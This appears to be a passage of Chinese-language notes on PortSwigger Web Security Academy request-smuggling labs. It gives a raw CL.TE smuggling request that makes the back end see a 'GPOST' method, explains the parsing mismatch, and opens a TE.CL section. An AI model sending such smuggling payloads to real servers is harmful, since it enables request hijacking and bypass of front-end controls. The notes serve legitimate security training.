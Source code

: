 要求下一个请求的请求方法是GPOST

构造请求

```
POST / HTTP/1.1
Host: 0ac1005a047799d2800758a4005d0085.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

前端解析到G结束，但是在后端第一个块就已经结束了，G会被当作下一个请求的开始，当再次提交请求的时候，G被添加到下一个POST请求前面，得到了GPOST请求方法，走私成功

![image-20240430132940447](images/1.png)





## TE.CL

靶场地址：https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

这种与前面一个正相反，前端是用Transfer-Encoding检测，后端用Content-Length
